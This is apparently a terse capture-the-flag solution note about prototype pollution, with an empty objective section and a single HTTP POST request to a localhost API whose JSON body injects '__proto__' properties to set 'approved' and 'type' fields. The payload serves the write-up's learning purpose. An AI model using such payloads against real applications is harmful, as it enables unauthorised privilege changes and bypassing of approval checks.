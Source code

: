 # Objective

# Solution

The solution has to do with prototype polution.. I can't recall specifics, but check out the queries:

```
POST http://localhost:3000/api/createObjects HTTP/1.1
Content-Type: application/json

[
  {
    "approved": "true",
    "__proto__": {
      "approved": "true",
      "type": "exclusive"
    }
  },
  {
    "joe": "blow",
    "__proto__": {
      "type": "exclusive"
    }
  },
  {
    "jane": "crane"
  }
]
```
